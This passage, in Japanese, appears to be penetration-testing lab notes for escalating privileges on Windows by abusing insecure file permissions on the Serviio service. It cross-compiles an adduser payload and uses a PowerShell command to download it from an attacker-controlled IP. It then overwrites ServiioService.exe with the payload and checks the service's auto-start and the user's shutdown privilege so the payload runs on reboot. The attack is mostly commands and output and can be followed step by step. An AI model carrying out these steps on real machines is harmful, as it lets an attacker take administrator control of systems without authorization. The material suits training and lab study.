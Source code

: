   * クロスコンパイル

    ```bash
    i686-w64-mingw32-gcc adduser.c -o adduser.exe
    ```

* 攻撃対象ホストに配送し、置き換えする

  ```
  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/adduser.exe', 'adduser.exe')
  ```

  ```cmd
  move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
  move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
  dir "C:\Program Files\Serviio\bin\"
  ```

* サービスの再起動を試みる

  ```
  net stop Serviio
  ```

  →権限なし

  ※サービス名は以下コマンドで確認できる

  ```cmd
  tasklist /SVC | findstr <検索文字>
  ```

  ![image-20230407232828983](img/InsecureFilePermissions/image-20230407232828983.png)

  ※ 一番右がサービス名になる

* Serviioサービスの開始オプションを確認する

  ```cmd
  wmic service where caption="Serviio" get name, caption, state, startmode
  ---
  C:\Users\admin\Documents>wmic service where caption="Serviio" get name, caption, state, startmode
  Caption  Name     StartMode  State
  Serviio  Serviio  Auto       Running
  ```

  ※Autoに設定されており自動的に開始される

* システムの再起動の権限の確認

  ```
  whoami /priv
  
  ----
  PRIVILEGES INFORMATION
  ----------------------
  
  Privilege Name                Description                          State
  ============================= ==================================== ========
  SeShutdownPrivilege           Shut down the system                 Disabled
  SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
  SeUndockPrivilege             Remove computer from docking station Disabled
  SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
  SeTimeZonePrivilege           Change the time zone                 Disabled
  ```
